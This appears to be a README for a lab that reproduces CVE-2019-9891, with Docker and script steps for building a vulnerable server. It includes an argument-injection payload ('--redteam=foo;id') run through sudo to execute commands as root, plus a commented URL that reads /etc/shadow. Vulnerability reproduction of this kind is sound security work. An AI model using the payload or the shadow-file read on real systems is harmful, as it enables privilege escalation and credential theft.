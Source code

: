 # CVE-2019-9891

## About
* <https://nvd.nist.gov/vuln/detail/CVE-2019-9891>

## PoC / Exploit
* <https://www.redteam-pentesting.de/en/advisories/rt-sa-2019-007/-code-execution-via-insecure-shell-function-getopt-simple>
 

## Environment used

* Ubuntu 18.04.4 LTS

## Reproduction 

* Server
    - Docker version
        ```shell script
        docker build -t cve-2019-9891 . 
        docker run -p8022:22 -it cve-2019-9891
        ```
      
    - Script version
        ```shell script
        sudo bash installation.sh 
        ```    
* Client
    ```shell script
    bash login.sh
    ```
  After login run `sudo /usr/local/sbin/cleanup.sh '--redteam=foo;id'` and you'll see the result of *id* command as root.  



[comment]: <> (https://localhost:10000/file/show.cgi/etc/shadow)